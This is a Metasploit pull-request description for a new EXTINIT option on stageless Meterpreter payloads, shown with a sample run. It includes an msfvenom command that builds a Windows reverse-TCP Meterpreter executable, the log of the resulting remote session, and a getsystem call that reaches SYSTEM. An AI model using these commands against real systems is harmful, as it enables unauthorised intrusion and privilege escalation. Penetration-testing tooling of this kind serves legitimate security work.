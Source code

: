 Source: @oj via https://github.com/rapid7/metasploit-framework/pull/6264

Stageless extensions can now receive a parameter on startup that lets them do something prior to Meterpreter connecting back to MSF. At the moment, the python extension is the only one that supports this.

A new parameter has been added to the windows stageless payloads, this is called EXTINIT and contains the "extension initialisation" information. Below shows a sample command line that wires in a script for the python extension to run on startup:

```
./msfvenom -p ... LHOST=... EXTENSIONS=python EXTINIT=python,/path/to/script.py ...
The EXTINIT parameter is in the format: ext1_name,path_to_file:ext2_name,path_to_file:...
```

Extensions, in future, may also require such ability to initialise, which is why this is intended to be a little generic.

Note, this feature does not currently verify that the extension name given is included in the list of extensions that have been wired into the binary.

Sample Run

Script content:
```
$ cat /Users/oj/test.py
import meterpreter.transport
meterpreter.transport.add("tcp://127.0.0.1:8000")
Binary creation:

$ ./msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=6005 LHOST=172.16.52.1 EXTENSIONS=stdapi,priv,python EXTINIT=python,/Users/oj/test.py -f exe -o ~/scratch/a-meterp64.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x64 from the payload
WARNING: Local file /Users/oj/code/metasploit-framework/data/meterpreter/metsrv.x64.dll is being used
WARNING: Local files may be incompatible Metasploit framework
WARNING: Local file /Users/oj/code/metasploit-framework/data/meterpreter/ext_server_stdapi.x64.dll is being used
WARNING: Local file /Users/oj/code/metasploit-framework/data/meterpreter/ext_server_priv.x64.dll is being used
WARNING: Local file /Users/oj/code/metasploit-framework/data/meterpreter/ext_server_python.x64.dll is being used
No encoder or badchars specified, outputting raw payload
Payload size: 7485589 bytes
Saved as: /Users/oj/scratch/a-meterp64.exe
Shell creation, validation that the script ran, and a random call to bindings to make sure the old stuff still works:

msf exploit(handler) > [*] Meterpreter session 5 opened (172.16.52.1:6005 -> 172.16.52.167:49161) at 2015-11-20 13:02:18 +1000
sessions -i -1
[*] Starting interaction with 5...

meterpreter > transport list
Session Expiry  : @ 2015-11-27 13:02:14

    ID  Curr  URL                     Comms T/O  Retry Total  Retry Wait
    --  ----  ---                     ---------  -----------  ----------
    1         tcp://127.0.0.1:8000    300        3600         10
    2   *     tcp://172.16.52.1:6005  300        3600         10

meterpreter > python_execute "import meterpreter.elevate,meterpreter.user;meterpreter.elevate.getsystem();print meterpreter.user.getuid();meterpreter.elevate.rev2self();print meterpreter.user.getuid()"
[+] Content written to stdout:
NT AUTHORITY\SYSTEM
WIN-TV01I7GG7JK\oj
```
